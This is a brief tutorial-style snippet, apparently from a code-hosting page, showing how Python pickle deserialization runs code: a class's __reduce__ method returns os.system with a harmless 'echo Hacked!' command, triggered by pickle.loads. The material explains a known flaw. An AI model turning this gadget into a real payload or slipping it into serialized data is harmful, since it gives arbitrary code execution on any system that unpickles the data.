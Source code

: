 ![not to pickle](unpickle.png)

The way to inject malicious code through pickle is that we create an python class and init create an `__reduce__ ` method this method would be called only when our data is unpickled

```python
import pickle
import os

# Construct malicious code
class Malicious:
    def __reduce__(self):
        return (os.system, ('echo Hacked!',))

# Serialize the malicious object
malicious_data = pickle.dumps(Malicious())
# Execute malicious code during deserialization
pickle.loads(malicious_data)

```
